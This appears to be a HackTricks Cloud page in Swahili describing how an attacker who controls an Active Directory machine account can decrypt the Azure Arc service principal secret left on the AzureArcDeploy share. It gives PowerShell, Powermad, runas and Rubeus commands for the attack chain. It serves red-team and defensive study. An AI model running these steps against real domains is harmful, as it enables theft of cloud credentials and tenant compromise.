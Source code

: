 # Az - Azure Arc Vulnerable GPO Deploy Script

{% hint style="success" %}
Jifunze na zoezi la AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Kutambua Matatizo

Azure Arc inaruhusu uingizaji wa seva za ndani mpya (seva zilizojiunga na kikoa) ndani ya Azure Arc kwa kutumia mbinu ya Group Policy Object. Ili kurahisisha hili, Microsoft hutoa zana ya upelekaji inayohitajika kuanzisha mchakato wa kujiunga. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, hati zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Inapotekelezwa, hati ya DeployGPO.ps1 hufanya vitendo vifuatavyo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya kikoa la ndani.
2. Inakopi hati ya kujiunga ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyoundwa kwa mchakato wa kujiunga, ambayo pia ina pakiti ya usanidi ya Windows.

Wakati wa kukimbia hati hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili muhimu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama kikoa, FQDN ya seva inayohifadhi sehemu, na jina la sehemu. Maelezo zaidi kama vile kitambulisho cha mpangaji, kikundi cha rasilimali, na habari nyingine muhimu lazima pia zitolewe kwa hati.

Siri iliyofichwa inazalishwa kwenye saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwenye sehemu kwa kutumia encryption ya DPAPI-NG. Siri iliyofichwa hifadhiwa kwenye faili iliyoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana kwenye hati ya DeployGPO.ps1, ambapo encryption inatekelezwa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama viingizo. Descripta inajumuisha SIDs za vikundi vya Domain Computer na Domain Controller, ikihakikisha kuwa ServicePrincipalSecret inaweza kufichuliwa tu na vikundi vya usalama vya Domain Controllers na Domain Computers, kama ilivyobainishwa katika maoni ya hati.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Kuchexploit

Tunayo hali zifuatazo:

1. Tumevamia mtandao wa ndani kwa mafanikio.
2. Tuna uwezo wa kuunda au kuchukua udhibiti wa akaunti ya kompyuta ndani ya Active Directory.
3. Tumeigundua sehemu ya mtandao inayoitwa AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia za kawaida ni kuchexploitisha kiwango cha akaunti ya mashine. Njia nyingine inahusisha kudhoofisha akaunti ya mashine kupitia ACLs zenye mapungufu au mizunguko mingine mbalimbali ya usanidi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Baada ya akaunti ya mashine kupatikana, ni sawa kuthibitisha kutumia akaunti hii. Tunaweza kutumia amri ya runas.exe pamoja na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT kwa akaunti yetu ya kompyuta iliyohifadhiwa kumbukani, tunaweza kutumia script ifuatayo kufichua siri ya mkuu wa huduma.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Kwa upande mwingine, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Kwa wakati huu, tunaweza kukusanya habari iliyobaki inayohitajika kuunganisha kwenye Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye folda sawa na faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na zingine. Kwa habari hii, tunaweza kutumia Azure CLI kujithibitisha kama service principal iliyoharibiwa.

## Marejeo

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
